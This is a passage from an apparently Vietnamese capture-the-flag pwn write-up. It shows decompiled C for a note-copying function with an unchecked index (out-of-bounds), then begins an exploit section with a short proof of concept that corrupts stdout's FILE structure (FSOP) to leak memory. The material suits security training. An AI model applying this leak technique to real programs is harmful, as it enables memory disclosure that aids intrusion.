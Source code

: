 ```c
  }
  else
  {
    puts("invalid!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

- coppy : hàm này sẽ cho phép sao chép dữ liệu từ notes[idx2] vào notes[idx] , ở đây nó không check idx -> oob


```c
unsigned __int64 copy()
{
  int idx; // [rsp+0h] [rbp-10h] BYREF
  int idx2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("index1 > ");
  __isoc99_scanf("%d", &idx);
  getchar();
  printf("inde2 > ");
  __isoc99_scanf("%d", &idx2);
  getchar();
  if ( notes[idx] && notes[idx2] )
    memcpy((void *)notes[idx], (const void *)notes[idx2], (int)sizes[idx2]);
  else
    puts("invalid!");
  return __readfsqword(0x28u) ^ v3;
}
```

### EXPLOIT 

vì bài này không có hàm nào để leak -> ta phải nghĩ đến ```FSOP``` 

ta có thể xem xét POC này : ở đây ta chỉ cần sửa bit cờ và change ```_IO_write_base``` là ta có thể leak được 

```c
#include <stdio.h>

int main()
{
    int flags,modified_flag;
    setbuf(stdout, NULL);
    flags = stdout->_flags;
    stdout->_flags = 0xfbad2087 | 0x1000 | 0x800;
    stdout->_IO_write_base -= 8;
    printf("flags: 0x%x\n", flags);
}
```
